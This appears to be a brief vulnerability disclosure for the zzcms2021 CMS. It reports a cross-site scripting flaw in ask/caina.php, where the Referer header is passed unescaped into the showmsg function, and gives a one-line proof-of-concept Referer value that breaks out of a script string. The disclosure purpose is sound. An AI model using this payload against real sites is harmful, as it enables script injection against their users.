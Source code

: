 + version: zzcms2021
+ source: http://www.zzcms.net/about/6.htm
+ issue: xss

# Position
in `ask/caina.php` line 21
![](https://github.com/imkitsch/CVE/blob/main/zzcms/20220217180328.png)

The `@$_SERVER['HTTP_REFERER']` can be controlled by the Referer header,and in `showmsg` function
![](https://github.com/imkitsch/CVE/blob/main/zzcms/20220217180524.png)

# Poc
`Referer:127.0.0.1";alert('xss');</script>//`
![](https://github.com/imkitsch/CVE/blob/main/zzcms/20220217181126.png)